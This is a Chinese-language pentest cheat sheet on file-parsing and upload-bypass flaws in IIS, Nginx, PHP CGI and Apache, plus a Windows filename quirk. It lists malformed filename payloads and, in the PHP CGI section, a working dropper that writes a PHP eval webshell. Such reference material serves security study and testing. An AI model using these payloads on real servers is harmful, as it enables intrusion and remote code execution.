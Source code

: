 ## IIS 5.x/6.0

解析漏洞

```
目录解析：x.asp/1.jpg   #在.asp或.asa文件夹下的所有类型后缀文件全部解析为.asp文件

 分号解析：x.asp;.jpg 会被解析 asp 格式

 其他文件名:cer,asa,cdx…都能识别成asp
```

## IIS 7.0/IIS 7.5/

```
 畸形文件名解析：test.jpg/*.php
 
 
test.asp.
test.asp(空格)
test.php:1.jpg
test.php:: $DATA
```

## Nginx

```
 畸形解析漏洞 :test.jpg/*.php (Nginx 版本无关，只与配置环境有关)

下面都能被识别成php执行
<8.03 空字节代码执行漏洞 :test.jpg%2500.php
test.jpg%%00.php
```

### PHP CGI 解析漏洞

```
当访问 xx.com/phpinfo.jpg/1.php 这个 URL 时，phpinfo.jpg 作为 PHP 文件解析

下面的1.jpg都可以作为php文件解析
www.xxxx.com/UploadFiles/image/1.jpg/1.php 
www.xxxx.com/UploadFiles/image/1.jpg/%200.php

上传一个名字为 test.jpg，以下内容的文件
<?PHPfputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>
然后访问 test.jpg/.php, 在这个目录下就会生成一句话木马 shell.php
```

## Apache 解析漏洞

```
Apache 解析文件时是按照从右向左的方式，test.php.aaa.sss,Apache 无法解析.aaa.sss，向左解析到.php, 于是 test.php.aaa.sss 就被解析为 php 文件

php3，php4，php5，pht，phtml  是可以被解析的

Apache 2.4.0到2.4.29有如下的配置
<FilesMatch \.php$>
    SetHandler application/x-httpd-php
</FilesMatch>
这里的$是可以匹配到换行的也就是
1.php\x0a  是能执行成php文件
1.php%0a也可以
但是要注意文件名取自$_FILES['file']['name']的话，换行会被去掉
```

## windows下的特性

在 windows 环境下，xx.jpg[空格] 或 xx.jpg. 这两类文件都是不允许存在的，若这样命名，windows 会默认除去空格或点,黑客可以通过抓包，在文件名后加一个空格或者点绕过黑名单.若上传成功，空格和点都会被 windows 自动消除,这样也可以 getshell。这种方法可以配合文件解析漏洞从而产生更大的杀伤力。
